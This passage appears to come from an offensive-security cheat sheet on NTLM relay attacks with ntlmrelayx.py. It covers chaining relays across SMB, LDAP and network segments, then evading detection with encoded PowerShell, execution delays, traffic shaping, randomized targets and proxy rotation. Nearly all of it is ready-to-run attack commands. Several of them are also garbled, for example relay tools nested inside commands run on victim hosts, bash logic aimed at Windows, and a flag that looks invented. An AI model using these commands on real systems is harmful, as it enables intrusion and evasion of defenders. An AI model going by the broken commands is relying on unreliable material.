 #### Chaining Relays for Complex Attack Paths
Relaying from one protocol to another and then pivoting through the network can create complex attack paths.

1. **SMB to LDAP to SMB Relay Chain**: Chains a relay from SMB to LDAP and then to another SMB target, executing `whoami` on the final target.
    ```bash
    ntlmrelayx.py -t ldap://<ldap_target_ip> -c "dsquery * -scope base -attr * | ntlmrelayx.py -t <smb_target_ip> -c 'whoami'"
    ```
2. **Relaying Through Multiple Network Segments**: Relays NTLM authentication across multiple network segments, allowing for deep network penetration.
    ```bash
    ntlmrelayx.py -tf targets_segment1.txt -c "echo Relayed to Segment 1 | ntlmrelayx.py -tf targets_segment2.txt -c 'echo Relayed to Segment 2'"
    ```
3. **Chained Relays with Conditional Logic**: Executes conditional commands based on the success of previous relays.
    ```bash
    ntlmrelayx.py -t <target_ip> -c "if [ `whoami` == 'Administrator' ]; then ntlmrelayx.py -t <admin_target_ip> -c 'net localgroup administrators'; fi"
    ```

#### Defense Evasion and Stealth Techniques

1. **Obfuscating NTLMRelayX Traffic**: Uses PowerShell's encoded command option to obfuscate the command being executed after a relay.
    ```bash
    ntlmrelayx.py -t <target_ip> -c "powershell -encodedCommand <encoded_command>"
    ```
2. **Timing Attacks with NTLMRelayX**: Delays execution of commands to avoid triggering security mechanisms that monitor for rapid connections.
    ```bash
    ntlmrelayx.py -t <target_ip> -c "ping -n 30 127.0.0.1 && whoami"
    ```
3. **Stealth Relaying with Traffic Shaping**: Adds artificial network delay to mimic legitimate traffic patterns during a relay attack.
    ```bash
    tc qdisc add dev eth0 root netem delay 100ms
    ntlmrelayx.py -t <target_ip> -c "whoami"
    ```
4. **Randomized Target Selection**: Randomizes the target selection to avoid detection by security analysts monitoring predictable attack patterns.
    ```bash
    shuf -n 1 targets.txt | xargs -I{} ntlmrelayx.py -t {} -c "ipconfig"
    ```
5. **Rotating Proxy Servers for Evasion**: Rotates between different proxy servers during the relay process to evade detection.
    ```bash
    ntlmrelayx.py -t <target_ip> --proxy-list proxy_servers.txt -c "hostname"
    ```
